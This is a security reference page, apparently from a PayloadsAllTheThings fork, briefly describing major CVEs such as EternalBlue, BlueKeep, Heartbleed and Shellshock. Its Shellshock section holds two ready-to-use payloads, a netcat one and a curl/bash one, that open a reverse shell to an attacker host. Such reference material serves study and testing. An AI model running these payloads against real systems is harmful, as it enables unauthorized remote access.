 # Common Vulnerabilities and Exposures 
https://github.com/Anvesh464/PayloadsAllTheThings/tree/master/CVE%20Exploits

> A CVE (Common Vulnerabilities and Exposures) is a unique identifier assigned to a publicly known cybersecurity vulnerability. CVEs help standardize the naming and tracking of vulnerabilities, making it easier for organizations, security professionals, and software vendors to share information and manage risks associated with these vulnerabilities. Each CVE entry includes a brief description of the vulnerability, its potential impact, and details about affected software or systems.

## Summary

* [Tools](#tools)
* [Big CVEs in the last 15 years](#big-cves-in-the-last-15-years)
    * [CVE-2017-0144 - EternalBlue](#cve-2017-0144---eternalblue)
    * [CVE-2017-5638 - Apache Struts 2](#cve-2017-5638---apache-struts-2)
    * [CVE-2018-7600 - Drupalgeddon 2](#cve-2018-7600---drupalgeddon-2)
    * [CVE-2019-0708 - BlueKeep](#cve-2019-0708---bluekeep)
    * [CVE-2019-19781 - Citrix ADC Netscaler](#cve-2019-19781---citrix-adc-netscaler)
    * [CVE-2014-0160 - Heartbleed](#cve-2014-0160---heartbleed)
    * [CVE-2014-6271 - Shellshock](#cve-2014-6271---shellshock)
* [References](#references)

## Tools

* [Trickest CVE Repository - Automated collection of CVEs and PoC's](https://github.com/trickest/cve)
* [Nuclei Templates - Community curated list of templates for the nuclei engine to find security vulnerabilities in applications](https://github.com/projectdiscovery/nuclei-templates)
* [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
* [CVE Details - The ultimate security vulnerability datasource](https://www.cvedetails.com)

## Big CVEs in the last 15 years

### CVE-2017-0144 - EternalBlue

EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. The vulnerability exists because the SMB version 1 (SMBv1) server in various versions of Microsoft Windows mishandles specially crafted packets from remote attackers, allowing them to execute arbitrary code on the target computer.

Afftected systems:

* Windows Vista SP2
* Windows Server 2008 SP2 and R2 SP1
* Windows 7 SP1
* Windows 8.1
* Windows Server 2012 Gold and R2
* Windows RT 8.1
* Windows 10 Gold, 1511, and 1607
* Windows Server 2016

### CVE-2017-5638 - Apache Struts 2

On March 6th, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This recent vulnerability, CVE-2017-5638, allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header.

### CVE-2018-7600 - Drupalgeddon 2

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.

### CVE-2019-0708 - BlueKeep

A remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

### CVE-2019-19781 - Citrix ADC Netscaler

A remote code execution vulnerability in Citrix Application Delivery Controller (ADC) formerly known as NetScaler ADC and Citrix Gateway formerly known as NetScaler Gateway that, if exploited, could allow an unauthenticated attacker to perform arbitrary code execution.

Affected products:

* Citrix ADC and Citrix Gateway version 13.0 all supported builds
* Citrix ADC and NetScaler Gateway version 12.1 all supported builds
* Citrix ADC and NetScaler Gateway version 12.0 all supported builds
* Citrix ADC and NetScaler Gateway version 11.1 all supported builds
* Citrix NetScaler ADC and NetScaler Gateway version 10.5 all supported builds

### CVE-2014-0160 - Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).

### CVE-2014-6271 - Shellshock

Shellshock, also known as Bashdoor is a family of security bug in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```

## References

* [Heartbleed - Official website](http://heartbleed.com)
* [Shellshock - Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva Apache Struts analysis](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
* [EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)
* [BlueKeep - Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)

